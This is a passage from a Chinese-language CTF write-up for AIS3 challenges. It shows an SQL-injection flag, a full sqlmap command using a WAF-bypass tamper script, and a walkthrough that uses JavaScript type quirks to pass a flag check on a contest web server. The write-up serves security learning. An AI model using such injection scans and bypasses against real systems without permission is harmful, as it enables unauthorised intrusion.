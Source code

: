 回傳值包含 flag

``` plaintext
sqlmap is for child,who starts selling weeds,this is the flag: AIS3{4_ch1ld_15_4_curly_d1mpl3d_lun471c},Im watching you
```

``` plaintext
AIS3{4_ch1ld_15_4_curly_d1mpl3d_lun471c}
```

#### 參考

- [GROUP_CONCAT](https://www.sqlitetutorial.net/sqlite-group_concat/)

#### 其他失敗的解法


用`nonrecursivereplacement.py`

``` bash
sqlmap -u https://turtowl.ais3.org/  --dbms sqlite --method POST --level 5 --risk 3 --data "csrf_token=tNNZwk3puLx8X6dwiGGWfc34oiY81Mq7xsKTtDJb%2B94iwZx%2BZEP29cLSppq3Md%2FO5cqUp6uDpw61NW1%2FMoQ0hg%3D%3D&username=*&password=&submit=Login"  --random-agent --form --identify-waf nonrecursivereplacement
```

- https://github.com/sqlmapproject/sqlmap/issues/2889

- https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3

### Rhino

網頁滲透經常查看幾個常見的地方，比方說 `robots.txt`

https://rhino.ais3.org/robots.txt

發現 `node_modules` 代表使用 nodejs ，那有沒有其他關聯的東西？ 比方說 `package.json`

https://rhino.ais3.org/package.json

發現執行一個 `chill.js` 
https://rhino.ais3.org/chill.js

當中需要 `n` 取 boolean 為 true ，並且加上某個數值後與原先的數值相同。

``` javascript
  if (n && (n + 420) === 420)
    res.sendFile('/flag');
  else
    res.send('you are a sad person too');
```

並且看起來像 javascript 弱型別，讓他符合兩個條件。參見 [In JavaScript, why is “0” equal to false, but when tested by 'if' it is not false by itself?](https://stackoverflow.com/questions/7615214/in-javascript-why-is-0-equal-to-false-but-when-tested-by-if-it-is-not-fals)

不過測試之後沒辦法，因此改用浮點數嘗試，發現以下情況成立

```javascript
Boolean(0e-10)
1e-100 + 400 === 400
```
